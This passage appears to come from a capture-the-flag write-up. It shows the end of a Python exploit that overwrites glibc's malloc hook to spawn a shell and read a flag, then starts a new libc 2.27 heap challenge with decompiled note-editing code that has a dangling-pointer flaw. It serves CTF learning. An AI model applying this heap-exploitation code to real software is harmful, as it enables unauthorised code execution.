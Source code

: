 ```python
    _add(1, 0x68, p64(0))
# Change malloc hook to call_ptr
    _add(1, 0x68, (0x23 - 0x10) * "\x00" + call_ptr)

# Trigger malloc hook to get shell, or try again
    p.sendlineafter("delete", "1")
    p.sendlineafter(":", "4")
    p.sendlineafter(":", "80")
    print "OK!"
    p.sendline("cat flag")
    print p.recvline()
  except EOFError:
    i = i + 1
    print "try: ", str(i)
    get = 0
    p.close()

while get == 0:
  exp()
```

I didn't use multi-thread. Otherwise it would become much faster. It takes approximate 200~300 round to get flag.

## three

> this challenge uses libc2.27

This is another heap challenge, let's have a quick review:
```c
int edit()
{
  signed int v1; // [rsp+Ch] [rbp-4h]

  printf("Input the idx:");
  v1 = getint();
  if ( v1 < 0 || v1 > 2 || !notes[v1] )
    return puts("No such note!");
  printf("Input the content:");
  readn((void *)notes[v1], 0x40uLL);
  return puts("Done!");
}

unsigned __int64 del()
{
  __int64 v1; // [rsp+0h] [rbp-10h]
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  printf("Input the idx:");
  LODWORD(v1) = getint();
  if ( (signed int)v1 >= 0 && (signed int)v1 <= 2 && notes[(signed int)v1] )
  {
    free((void *)notes[(signed int)v1]);
    printf("Clear?(y/n):", v1);
    readn((char *)&v1 + 6, 2uLL);
    if ( BYTE6(v1) == 'y' )
      notes[(signed int)v1] = 0LL;
    puts("Done!");
  }
  else
  {
    puts("No such note!");
  }
```